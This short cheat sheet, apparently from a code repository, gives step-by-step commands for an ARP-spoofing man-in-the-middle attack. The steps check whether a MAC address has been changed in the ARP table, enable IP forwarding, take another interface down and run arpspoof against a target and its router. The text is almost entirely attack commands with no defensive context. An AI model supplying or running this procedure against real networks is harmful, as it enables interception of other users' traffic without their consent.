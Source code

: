 # ARP Spoof

## Check mac changed or not

    $ arp -a
    Interface: 192.168.1.4 --- 0x14
      Internet Address      Physical   Address      Type
      192.168.1.1             80-1f-02-e2-94-8c     dynamic
      192.168.1.13            80-1f-02-e2-94-8c     dynamic
      ...

## Check ip_forward status

    $ sysctl net.ipv4.ip_forward
    or
    $ cat /proc/sys/net/ipv4/ip_forward

## Enabling ip_forward

    $ echo 1 >> /proc/sys/net/ipv4/ip_forward
    or
    $ sysctl -w net.ipv4.ip_forward=1

## Closing other network

    $ ifconfig eth0 down

## Using arpspoof

    $ arpspoof -i wlan0 -t <target> <router>
